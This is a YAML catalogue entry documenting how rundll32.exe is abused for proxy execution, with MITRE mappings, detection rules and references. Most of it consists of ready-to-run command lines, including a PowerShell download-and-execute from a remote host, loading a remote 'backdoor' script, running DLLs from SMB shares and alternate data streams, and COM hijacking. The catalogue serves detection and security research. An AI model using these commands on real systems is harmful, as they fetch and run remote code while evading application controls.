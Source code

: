 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe AllTheThingsx64,EntryPoint
    Description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
    Usecase: Execute dll file
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
    Description: Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');")
    Description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload. Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10 (and likely previous versions), Windows 11
    Tags:
      - Execute: DLL
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml
  - IOC: Outbount Internet/network connections made from rundll32
  - IOC: Suspicious use of cmdline flags such as -sta
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
  - Link: https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90
  - Link: https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Sailay
    Handle: '@404death'
  - Person: Martin Ingesen
    Handle: '@Mrtn9'
---
```

